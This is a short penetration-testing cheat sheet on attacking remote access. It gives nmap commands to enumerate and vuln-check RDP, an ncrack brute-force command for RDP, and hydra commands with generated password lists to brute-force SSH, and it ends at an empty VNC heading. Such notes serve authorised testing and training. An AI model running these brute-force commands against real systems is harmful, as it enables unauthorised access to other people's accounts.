 # Attacking Remote Access

REMOTE ACCESS

  
 --Find RDP service usually prot 3389--

* nmap -p 3389 --script rdp-enum-encryption &lt;IP&gt;
* Determine if RDP is vulnerable - nmap -sV -p3389 --script rdp-vuln-ms12-020 &lt;IP&gt;

  
 --Brute force RDP username and password--

* ncrack - ncrack -vv -U user.lst -P password.list &lt;Target IP&gt;:&lt;Target Port&gt;

  
 --Compromise Secure Shell--

* hydra -s 22 -v -V -L &lt;file path/name&gt; -P &lt;file path/name&gt; -t 8 &lt;Target IP&gt;&lt;protocol\(ssh\)&gt;
* hydra -L user.lst -V -x 6:8:aA1 &lt;IP address&gt;SSH
* The parameters used in the previous command are described in the following list:
* -x: This directs hydra to automatically create the passwords used in the brute-force attack. The passwords will be created according to the parameters that follow -x.
* 6:8: This indicates a minimum password length of six characters and a maximum password length of eight characters.
* aA1: This will automatically create the passwords using a combination of letters and numbers. It will use all lowercase letters \(denoted by a\) and all uppercase letters \(denoted by A\), and the numerals 0 to 9 \(denoted by 1\).
* You can also add special characters to the generated list; however, you need to add single quotes around the -x option, as shown in the following command:
* hydra -L user.lst -V -x '6: 8: aA1!@\# $' &lt; IP address &gt; SSH

 --Compromise Remote Access Protocols \(VNC\)--

